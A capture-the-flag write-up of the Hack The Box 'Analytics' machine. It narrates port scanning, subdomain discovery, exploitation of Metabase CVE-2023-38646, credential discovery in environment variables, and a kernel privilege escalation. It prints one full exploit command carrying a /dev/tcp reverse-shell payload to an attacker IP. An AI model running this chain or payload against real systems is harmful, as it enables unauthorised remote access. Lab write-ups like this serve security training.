

+++
author = true
title = "Analytics HTB Writeup"
date = "2024-05-13"
description = "Analytics writeup"
tags = [
    "writeup"
]
categories = [
    "Red Pill"
]
toc = true
image = "images/4ee3e0b492328aaff5facb4c6a3cd03dc9db5cc1.png"
+++

## Author
* Aizzat Azman

**Summary** We have port 22 (ssh) and 80 (webserver) open, we enumerate the webserver and found out it have subdomains data.analytics.htb. We greeted with metabase that have vulnerabilities and we exploit it to gain reverse shell. We enumerate the machine and found user credential in the environment. Finally we found kernel exploit that help escalate our privilege to root.

Let's begin.

## Port Scanning

First we run our machine and we get our target IP address

Target : 10.10.11.233

<figure>

</figure>

First thing first is we run our ***nmap*** scan to scan any open port and services.

    nmap -sC -sV 10.10.11.233   

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-06 10:10 +08
    Nmap scan report for analytical.htb (10.10.11.233)
    Host is up (0.18s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
    |_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Analytical
    |_http-server-header: nginx/1.18.0 (Ubuntu)

    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

    Nmap done: 1 IP address (1 host up) scanned in 34.88 seconds

We have 2 open port, **SSH** and **HTTP** webserver. Let's have a look what do we have in the webserver.

We first have to put the domain into our **/etc/host** to be able to access the webserver.

<figure>

</figure>

<figure>

</figure>

## Web Enumeration

We are greeted by a simple landing page. I tried to look around even in the **Page Source** but it seems like **nothing** that could lead us further.

<figure>

</figure>

There's a contact form and I try to input random string but it just bring us to the top of the page again. We also found couple of email that we could probably use later (Spoiler we didn't have to use it).

<figure>

</figure>

### Directory Enumeration

We try to brute force directory using ***dirsearch*** to look for any secret directory but seems like there's none.

<figure>

</figure>

Since there's no useful result on ***dirsearch***, I proceed to try enumerate the subdomains and we **found a subdomain** that we can try to get into. But before that we have to include it inside ***/etc/hosts*** as well.

<figure>

</figure>

<figure>

</figure>

## Metabase

It lead us to **metabase** login form. We don't have any credential yet. So I try sql injection and other techniques but lead me to nothing. So I google if metabase have any exploit.

<figure>

</figure>

We try to google for any exploit regarding Metabase and as we can see there's couple of **Metabase exploit** that we can try to use.

<figure>

</figure>

### CVE-2023-38646

I'm going to try [https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc?ref=tamagorengs.com) exploit first. You can learn more detail on how the exploit work here [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/?ref=tamagorengs.com). We first need to get the setup-token at **/api/session/properties** and run it with command below

<figure>

</figure>

    python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"

we end up with this

    python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.133/2210 0>&1"

## Initial Foothold

And now we have a reverse shell. We are currently user metabase. I try **sudo -l** but seems like we need **tty**. I check python and it's also not available. I tried other tty techniques but nothing works. We also get nothing from from the metabase home directory.

<figure>

</figure>

<figure>

</figure>

## Privilege Escalation - Part 1

I try enumerate more on the host. I try **env** to check the environment of the host and notice a **Pass** and a **User**. Let's try SSH into the machine use below **credential**.

<figure>

</figure>

We succesfully get into **metalytics** user through SSH and now we get the **user flag**. Now we have to find a way to escalate our privileges.

<figure>

</figure>

## Privilege Escalation - Part 2

We run **sudo -l** to check if we have any sudo privileges but it seems that we can't run anything as sudo.

<figure>

</figure>

Let's run ***linpeas*** to automate the enumeration

<figure>

</figure>

### CVE-2023-2640

After looking around for **kernel exploit vulnerability**. I found an PoC regarding below version of ubuntu. You can read more here [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?ref=tamagorengs.com).

<figure>

</figure>

All we have to do is get the exploit, and run it. And voila we are now root. Let's finish this by getting the root flag.

<figure>

</figure>

And that's it, we managed to finish this box.

<figure>

</figure>
